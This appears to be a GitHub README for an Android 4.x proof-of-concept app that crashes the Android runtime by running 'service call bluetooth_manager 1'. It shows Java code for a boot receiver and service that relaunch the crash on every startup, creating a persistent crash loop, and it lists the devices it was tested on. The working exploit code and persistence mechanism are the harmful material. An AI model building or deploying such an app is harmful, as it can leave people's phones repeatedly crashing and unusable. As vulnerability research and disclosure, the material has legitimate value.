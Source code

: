 android_bt_manager
==================

This Android 4.x application causes the Android runtime to crash Android.io by making a service call to bluetooth_manager. 

**How it works:**
- `MainActivity` sends service call to `IBluetoothManager`: `Runtime.getRuntime().exec("service call bluetooth_manager 1");`
- `BootReceiver`, a `BroadcastReceiver` waits for `ACTION_BOOT_COMPLETED` to start `Crash` service. 

```Java
if (Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
    Intent serviceIntent = new Intent(context, Crash.class);
    context.startService(serviceIntent);
}
```

- `Crash` service starts the `MainActivity` 

```Java
Intent i = new Intent(this, MainActivity.class);
i.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(i);
```

- Repeat. 

**Application Permissions:** 
- `RECEIVE_BOOT_COMPLETED`

**This application has been tested on the following devices:**

|   Device   |   OS   | Rooted | Runtime |
| ---------- |:------:|:------:|:-------:|
| Nexus 5    | 4.4.2  | ✓      | ART     |
| Moto X     | 4.4.3  | x      | ART     |
| Nexus 5    | 4.4.3  | ✓      | ART     |